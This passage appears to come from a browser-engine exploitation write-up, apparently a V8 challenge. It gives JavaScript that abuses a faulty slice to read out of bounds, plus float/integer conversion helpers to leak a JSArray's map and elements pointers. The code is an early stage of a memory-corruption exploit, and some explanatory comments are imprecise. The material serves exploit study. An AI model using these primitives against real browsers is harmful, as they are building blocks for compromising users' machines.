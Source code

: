 
The above utilites function would change the integer to the float and the float to integer named `itof` and `ftoi` respectively. Now, we have the utilties function lets create a JS script in which we can access the `array[length + 1]` which will give us the `JSArray`'s map and the `array[length + 2]` which will give us the pointer of the elements stored in the `JSArray`.

```js
var aux_float_arr = [1.1, 2.2, 3.3];
var aux_arr = aux_float_arr.slice(aux_float_arr) 

/*
When we do `aux_float_arr.slice(aux_float_arr)` the slice function will try to show the whole array + 2 more than the actual length of it which
will turn into the OOB read. hence leaking the addresses.
*/

var buf = new ArrayBuffer(8);
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val, size) {

    f64_buf[0] = val;

    if(size == 32) {
        return BigInt(u64_buf[0]);
    } else if(size == 64) {
        return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n);
    }

}

function itof(val, size) {

    if(size == 32) {
        u64_buf[0] = Number(val & 0xffffffffn);
    } else if(size == 64) {
        u64_buf[0] = Number(val & 0xffffffffn);
        u64_buf[1] = Number(val >> 32n);
    }

    return f64_buf[0];

}

// We only get the lower 32 bytes, since that's what we need because of the pointer compression

var flt_arr_map = ftoi(aux_arr[3], 32); // Lower 32 bits of the Map address
var elem_arr_ptr = ftoi(aux_arr[4], 32); //  Lower 32 bits of the elements pointer


console.log("[+] Float array map: 0x" + flt_arr_map.toString(16));
console.log("[+] Pointer to array elements: 0x" + elem_arr_ptr.toString(16));
```
